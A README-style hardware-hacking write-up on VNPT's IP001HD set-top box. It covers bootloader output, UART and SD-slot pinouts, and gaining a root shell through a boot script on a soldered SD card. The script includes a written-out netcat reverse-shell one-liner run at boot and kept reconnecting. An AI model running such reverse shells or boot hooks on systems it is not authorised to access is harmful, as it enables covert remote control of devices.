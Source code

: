 # vnpt-ipe001hd
VNPT Igate set top box IP001HD

This repository contains data related to VNPT's IP001HD set-top box.
This box has a single core BCM7241 CPU running at 1305MHz along with 1GB DDR3-1866 and 3780MB of flash storage. The architecture is MIPS little endian.
Much of the info below can be obtained from the boot log.

## CFE 

Default environment:
```
CFE> printenv
Variable Name        Value
-------------------- --------------------------------------------------
        BOOT_CONSOLE uart0
 SPLASH_PART_STARTAD 228000
    SPLASH_PART_SIZE 400000
  LINUX_PART_STARTAD 628000
     LINUX_PART_SIZE 1000000
              SPLASH ENABLE
            ETH0_PHY INT
      ETH0_MDIO_MODE 1
          ETH0_SPEED 100
        ETH0_PHYADDR 1
            STARTUP0 boot -z -elf flash0.kernel: 'bmem=192M@64M bmem=512M@512M'
            STARTUP1 boot -z -elf flash0.recovery: 'bmem=192M@64M bmem=512M@512M'
            STARTUP2 sleep 1000 && boot -z -elf usbdisk0:vmlinuz-7429b0 'rootwait root=/dev/sda2 bmem=192M@64M bmem=512M@512M rw init=/init'
            BOOTMODE 0
            CFE_FUSE 11
         ETH0_HWADDR A0:65:18:8B:90:25
          STB_SERIAL 0122403S1F8B9025
         CHIP_SERIAL VNT0121S1F8B9025
            MTDPARTS
          DRAM0_SIZE 1024
          FLASH_TYPE EMMC
          FLASH_SIZE 3780
         CFE_VERSION 14.4
     CHIP_PRODUCT_ID 72410010
       CFE_BOARDNAME BCM97241USFF
      CFE_MEMORYSIZE 128
*** command status = 0

CFE> show devices
Device Name          Description
-------------------  ---------------------------------------------------------
              uart0  16550 DUART at 0xB0406700 channel 0
        flash0.rsv0  EMMC flash at 0000000000000000 offset 0000000000000000 size 32KB : emmc_part_DATA
      flash0.macadr  EMMC flash at 0000000000000000 offset 0000000000008000 size 64KB : emmc_part_DATA
       flash0.nvram  EMMC flash at 0000000000000000 offset 0000000000018000 size 64KB : emmc_part_DATA
        flash0.temp  EMMC flash at 0000000000000000 offset 0000000000028000 size 1024KB : emmc_part_DATA
     flash0.virtual  EMMC flash at 0000000000000000 offset 0000000000128000 size 1024KB : emmc_part_DATA
      flash0.splash  EMMC flash at 0000000000000000 offset 0000000000228000 size 4096KB : emmc_part_DATA
      flash0.kernel  EMMC flash at 0000000000000000 offset 0000000000628000 size 16384KB : emmc_part_DATA
    flash0.recovery  EMMC flash at 0000000000000000 offset 0000000001628000 size 16384KB : emmc_part_DATA
      flash0.system  EMMC flash at 0000000000000000 offset 0000000002628000 size 524288KB : emmc_part_DATA
       flash0.cache  EMMC flash at 0000000000000000 offset 0000000022628000 size 524288KB : emmc_part_DATA
        flash0.data  EMMC flash at 0000000000000000 offset 0000000042628000 size 2778944KB : emmc_part_DATA
        flash0.rsv1  EMMC flash at 0000000000000000 offset 00000000EBFF8000 size 32KB : emmc_part_DATA
         flash1.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT1
         flash2.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT2
               eth0  GENET Internal Ethernet at 0xB0700800
*** command status = 0

```
Some notes:
- The trick to append `init=/bin/sh` to `STARTUP` won't work.

## Getting shells

### 1. UART shell

UART shell can be accessed via J301 header with the following pins respectively: GND-RX-TX-VCC. However, I did not manage to proceed further than the CFE shell, as the Linux system requires logging in. To access the CFE shell, press Ctrl+C repeatedly when powering up the device.

### 2. System shell

In order to get to the system shell, some techniques need to be used. 

There is an unpopulated micro SD slot at J402 header. I initially thought it connects to the eMMC chip used by the devs to quickly flash a new image onto the eMMC, however by overlaying the images of the front and back of PCB and aligning the vias, I found out that it is not. The 7241 SoC has at least two SD/eMMC interfaces, one of the goes to the eMMC while the other goes to the header. An interesting note is that this SD card slot connects to the first SD/eMMC bus of the SoC (or at least first in the device tree used to compile the OS), thus getting the first number when enumerated (`mmcblk0` instead of `mmcblk1`). 

You can solder a micro sd slot directly to J402 as its pinout is very straightforward. But for extra clarity, here's the J402 header pinout (from left to right, respectively):
1. DAT1
2. DAT0
3. GND (VSS)
4. CLK
5. VCC (VDD)
6. CMD
7. DAT3
8. DAT2

This lefts the eMMC to the second node (mmcblk1). Booting up with a blank SD card reveals that unfortunately (fortunately for us), the system is hardcoded to use `mmcblk0` to mount /usr and /data. We also know the filesystem type of these two partitions are of ext4. Moreover, it tries to run a script named `rc.user` at the root of the `usr` partition.

With this knowledge, we will proceed to create two partitions on the card. The first partition will be named `usr` and the second partition will be named `data`. 

After creating the partitions, download Busybox for MIPS little endian (https://www.busybox.net/downloads/binaries/1.21.1/busybox-mipsel) and create a file named `rc.user` in root of `usr`. The `rc.user` file is a script that will be executed upon boot. We will use this opportunity to make it establish a reverse shell to our machine. Let's assume that our machine's address is 192.168.1.2.

The `rc.user` script needs to do at least these following things:
1. Copy busybox-mipsel to /bin: `cp busybox-mipsel /bin` because there is no `nc` utility in the box's stock `busybox`.
2. Softlink the nc utility: `ln -s /bin/busybox-mipsel /bin/nc`
3. (optional, if there is no DHCP) `ifconfig eth0 192.168.1.3`
4. Establish reverse shell: `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 4242 >/tmp/f`

To have the system automatically reconnect without having to reboot when we mistakenly press Ctrl+C in the shell, it is good to put the 4th command in a infinite while loop.

That's it! Now our SD card contains the neccessary files to begin hacking the box. Pop it in the soldered sd slot, power the box on and wait for the shell.
